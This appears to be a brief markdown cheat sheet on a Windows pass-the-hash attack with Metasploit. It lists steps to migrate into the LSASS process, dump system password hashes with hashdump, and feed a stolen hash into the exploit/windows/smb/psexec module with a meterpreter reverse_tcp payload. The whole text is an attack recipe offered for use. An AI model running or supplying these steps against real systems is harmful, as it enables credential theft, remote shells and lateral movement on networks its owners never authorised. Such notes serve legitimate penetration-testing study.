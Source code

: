# Pass The Hash with PSexec
We can use to authenticate with system legitimately using SMB  
This can be completed with just the hash  

**Retrieve system hashes**
1. Migrate to LSASS process
2. getuid to verify NT Authority privileges command
3. ```hashdump```

Module: **exploit/windows/smb/psexec**  
1. set payload to target  - ```set payload windows/x64/meterpreter/reverse_tcp```
2. Copy the hash (not the colons)
3. set SMBUser (User)
4. set SMBPass (enter the hash)
5. Run
